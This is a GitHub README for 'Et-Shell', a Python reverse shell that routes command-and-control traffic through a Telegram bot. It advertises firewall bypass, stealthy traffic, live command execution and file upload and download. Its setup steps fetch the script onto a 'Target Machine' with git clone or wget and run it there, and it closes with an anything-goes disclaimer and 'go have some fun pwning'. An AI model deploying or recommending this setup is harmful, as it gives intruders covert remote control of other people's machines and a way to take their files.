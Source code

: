 # ⚡ Et-Shell – The Easiest Reverse Shell You’ll Ever Use!

Forget complicated setups. **Et-sHell** gives you a **fully functional reverse shell** using **Telegram**—no need for a remote server, no open ports, no headaches. Just straight-up shell access, routed through Telegram’s servers.

## 🔥 Why etShell?

-   **Broke? No server?, no problem** – No need to set up a VPS, configure nginx rules or expose your IP.
-   **Firewall? Bypass it.** – No open ports, no NAT issues, just seamless communication.
-   **Command & Control via Telegram** – Send shell commands from your girlfriend's dorm room with your phone.
-   **Discreet & Stealthy** – Blends in like a ghost – Telegram traffic = Innocent AF!.
-   **File Transfers** – Upload and download files.
-   **Live Mode** – Watch command output in real-time.

## 🛠️ Setup in 60 Seconds

1.  **Create a Telegram bot** via [@BotFather](https://t.me/BotFather).
2.  **Clone this repo on your Target Machine/ wget [`etshell.py`](https://raw.githubusercontent.com/getmydropper/Et-Shell/refs/heads/main/etshell.py)** :
    
    ```
    git clone https://github.com/getmydropper/Et-Shell   
    ```
    
3.  **Install dependencies**:
    
    ```
    pip install telepot  
    ```
        
 4. **Paste your bot `TOKEN` obtained from  [@BotFather](https://t.me/BotFather) in `etshell.py`.**
    
5.  **Run it**:
    
    ```
    python etshell.py  
    ```
    
5.  **Start commanding your Target Machine via Telegram.**

## ⚠️ Disclaimer

This tool is for **whatever purposes** and make sure your bot token stays safe. If you use it for anything shady, that's on you. Don’t be dumb.

Now go have some fun pwning!

[![Telegram](https://badgen.net/badge/icon/Don't%20be%20an%20skid!?icon=telegram&label=DM%20for%20Queries)](https://t.me://hello_elliot_bot)
----------

#### LICENSE
```
             DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2004 Sam Hocevar <sam@hocevar.net>

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.

```
